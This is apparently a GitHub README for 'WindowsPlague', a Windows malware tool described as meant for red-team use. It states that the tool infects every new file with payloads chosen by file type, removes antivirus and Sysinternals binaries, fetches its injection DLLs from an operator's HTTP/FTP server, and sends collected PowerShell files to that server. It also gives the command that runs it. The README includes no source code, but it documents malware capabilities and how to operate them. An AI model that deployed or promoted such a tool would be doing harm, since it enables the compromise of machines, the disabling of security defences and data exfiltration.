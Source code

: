 # PlagueWindows

![logo](https://raw.githubusercontent.com/M507/WindowsPlague/master/Fullp.png)

WindowsPlague is Windows Malware built for Red-Team activities. Windows Malware monitors every new file in the system and infects it with a specific injection according to the kind of file. 


### Futures:
----------
* Infects every new file in the system.
* Customized injections for each file.
* Quick removal for any antivirus.
* Quick removal for all Sysinternals binaries.
* Collects all ps1 files and transfers them to FTP server, to analyse.

### How does it work?
----------
It needs a server that must have:

| File name | Description                  |
|-----------|------------------------------|
| Ips1.dll  | for Powershell files.        |
| Iasp.dll  | for asp and aspx files.      |
| Ibat.dll  | for Batch files.             |
| Iphp.dll  | for PHP files.               |
| Itxt.dll  | for txt files.               |
| antiu.dll | for all prohibited keywords. |


Each dll file should have the injection code for each type of file.
Thus, each PHP file will be injected by the contact of Iphp.dll.

For example, If you do not want to inject txt files, do write anything in Itxt.dll, and this way it will not inject anything in txt files. But Itxt.dll must exist in the HTTP/FTP server.

### Run
----------
```sh
Microsoft Windows [Version 10.0.17763.503]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Mohd> WindowsPlague.exe <HTTP/FTP server>
```

<HTTP/FTP server> Is needed so that the WindowsPlague can download all the .dll files from and whenever it finds a ps1 file sends it to <HTTP/FTP server>. 
